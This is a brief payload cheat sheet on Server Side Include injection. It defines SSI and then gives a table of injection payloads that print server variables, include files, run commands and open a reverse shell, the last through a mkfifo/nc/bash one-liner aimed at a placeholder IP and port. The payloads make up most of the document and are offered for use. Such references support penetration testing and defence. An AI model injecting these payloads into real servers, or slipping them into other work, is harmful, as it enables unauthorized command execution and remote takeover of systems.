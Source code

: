 # Server Side Include Injection

> Server Side Includes (SSI) are directives that are placed in HTML pages and evaluated on the server while the pages are being served. They let you add dynamically generated content to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology.


## Summary

* [Payloads](#payloads)
* [References](#references)


## Payloads

| Description             | Payload |
|-------------------------|---------|
| Print a date            | `<!--#echo var="DATE_LOCAL" -->` |
| Print all the variables | `<!--#printenv -->` |
| Include a file          | `<!--#include file="includefile.html" -->` |
| Execute commands        | `<!--#exec cmd="ls" -->` |
| Doing a reverse shell   | `<!--#exec cmd="mkfifo /tmp/foo;nc IP PORT 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` |


## References

* [Server-Side Includes (SSI) Injection - Weilin Zhong, Nsrav - December 4, 2019](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)